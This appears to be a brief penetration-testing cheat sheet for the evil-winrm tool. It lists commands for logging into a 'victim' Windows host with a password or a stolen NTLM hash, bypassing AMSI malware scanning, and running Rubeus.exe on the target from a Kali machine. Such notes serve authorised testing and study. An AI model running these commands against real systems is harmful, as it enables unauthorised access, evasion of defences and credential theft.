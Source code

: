 evil-winrm

~~~bash
evil-winrm -i Victim_IP -u User -H Hash
~~~

~~~bash
evil-winrm -i 10.100.1.5 -u svc.account -p password -P port
~~~

Displaying Evil-WinRM Options:

~~~bash
menu
~~~

Bypassing AMSI in a Evil-WinRM Console:

~~~bash
Bypass-4MSI
~~~

Remotely running Binary from Kali Box on Victim PC:

~~~bash
Invoke-Binary /home/kali/Rubeus.exe
~~~

